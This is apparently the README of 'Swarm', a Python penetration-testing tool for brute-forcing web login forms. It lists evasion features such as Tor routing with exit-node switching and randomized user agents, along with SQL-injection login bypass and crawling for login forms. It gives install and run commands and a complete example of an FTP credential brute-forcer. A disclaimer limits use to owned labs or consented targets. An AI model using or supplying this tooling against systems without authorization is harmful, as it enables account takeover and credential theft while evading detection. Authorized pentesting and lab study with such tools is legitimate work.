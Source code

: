 # DISCLAIMER
**Swarm is for education/research purposes only. The author takes NO responsibility and/or liability for how you choose to use any of the tools/source code/any files provided.
 The author and anyone affiliated with will not be liable for any losses and/or damages in connection with use of ANY files provided with Swarm.
 By using Swarm or any files included, you understand that you are AGREEING TO USE AT YOUR OWN RISK. Once again Swarm and ALL files included are for EDUCATION and/or RESEARCH purposes ONLY.
 Swarm is ONLY intended to be used on your own pentesting labs, or with explicit consent from the owner of the property being tested.** 


# About Swarm 
**Swarm is a Bruteforcing pentesting tool for bruteforcing html logins**
**If you enjoy and are pleased with Swarm, take a moment and star this github. It only takes a second, so please take a second now and star at the top of the page.**
## Some Notable Features
* Multi-Threaded
* Randomized user agents
* Able to tunnel requests through tor, just use --tor option
* Able to by-pass logins via SQL Injections if option is specified
* Crawl the domain to discover login forms
* Easy to inherit from Hive to create different types of bruteforcing tools
* Able to generate a focused wordlist while crawling a domain
* Able to specify how many tries before TOR exit node switches

# Getting Started
To use, first clone the github repo, and then give swarm execute permissions
```shell
git clone https://github.com/szech696/swarm && cd swarm
chmod 755 swarm		
```	
## Installing Dependencies 
```shell
pip install bitarray
pip install -U requests[socks]
pip install pexpect
apt-get install tor
``` 
## Usage

### For all options
```shell
./swarm --help
``` 
### Using on Damn Vulnerable Web App
```shell
./swarm --url='http://localhost/dvwa/login.php' --user-file='usernames.txt' --pass-file='passwords.txt' --verbose --threads=1 
```
## Using Hive to Develop New Tools 
Hive makes developing new bruteforcing tools a breeze! The following is an example of a FTP bruteforcer
```python
from pythonlib.hive import Hive
from ftplib import FTP

# class: FTPHive
# description: Hive used to brute-force FTP Logins
class FTPHive(Hive):
        ftp = None
        def __init__(self):
                Hive.__init__(self)

        # function: attemptLogin        - Overriden
        # param: credential             - The credential to attempt a login with
        # return: Boolean               - True if Success | False if Failure
        # description: This function is responsible for attempting a login with the specified credential
        def attemptLogin(self, credential):
                success = False
                Hive.attemptLogin(self, credential)
                username = credential.username
                password = credential.password
                host = credential.host
                try:
                        self.ftp = FTP(host)
                        result = self.ftp.login(username,password)
                        # If result then this was a successful login
                        if result:
                                success = True
                        self.ftp.close()
                except:
                         pass
                return success

        # function: setup
        # description: Prepares this Hive for its attack, *NOTE* This must be called before start is called
        def setup(self):
                Hive.setup(self)

        def post_exploit(self,credential):
                # -------- Do Something ----------
                # Such as display a custom login message
                # Store credentials in a Database, etc.
                exit()

threadCount = 4
ftp_bruteforce = FTPHive()
ftp_bruteforce.target = 'ftp_server_address'                    # specify the target
ftp_bruteforce.usernameFile = 'usernames.txt'                   # the username file to use
ftp_bruteforce.passwordFile = 'passwords.txt'                   # the password file to use
ftp_bruteforce.verbose = True                                   # verbose output
ftp_bruteforce.setOnSuccessHandle(ftp_bruteforce.post_exploit)  # Normally you would just do this in setup, but for demonstration purposes
ftp_bruteforce.setup()                                          # setup must be called before start, and after username/usernameFile, passwordFile, and target have been set
ftp_bruteforce.start(threadCount)                               # starts the bruteforcing task

```

